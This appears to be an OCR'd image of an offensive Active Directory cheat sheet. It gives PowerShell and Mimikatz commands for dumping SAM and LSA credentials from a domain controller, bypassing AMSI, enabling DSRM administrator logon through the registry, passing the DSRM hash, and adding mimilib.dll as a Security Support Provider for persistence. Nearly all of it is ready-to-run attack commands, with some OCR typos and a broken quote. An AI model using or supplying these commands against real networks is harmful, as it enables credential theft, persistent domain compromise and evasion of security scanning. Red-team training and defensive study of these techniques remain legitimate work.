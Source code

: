 Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername DC01

- Eneable DSRM account to login

Enter-PSSession -Computername DC01

New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name

"DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

- Pass the DSRM hash

Invoke-Mimikatz -Command '"sekurlsa::pth /domain:DC01 /user:Administrator

/ntlm:00000000000000000000000000000000 /run:powershell.exe"

- Dump local acconut

Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername DC01

- FULL

$sess = New-PSSession DC01.domain.local

Enter-PSSession -Session $sess

# BYPASS AMSI AND EXIT

Invoke-Command -FilePath C:\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession -Session $sess

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'

# ALLOW DSRM ADMINISTRATOR TO LOGIN

New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# PASS THE HASH DSRM ADMINISTRATOR

Invoke-Mimikatz -Command '"sekurlsa::pth /domain:DC01 /user:Administrator

/ntlm:00000000000000000000000000000000 /run:powershell.exe"'

### Security Support Provider (SSP)

# Drop the mimilib.dll to system32 and add mimilib to

HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages

$packages = Get-ItemProperty

HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -

ExpandProperty 'Security Packages'
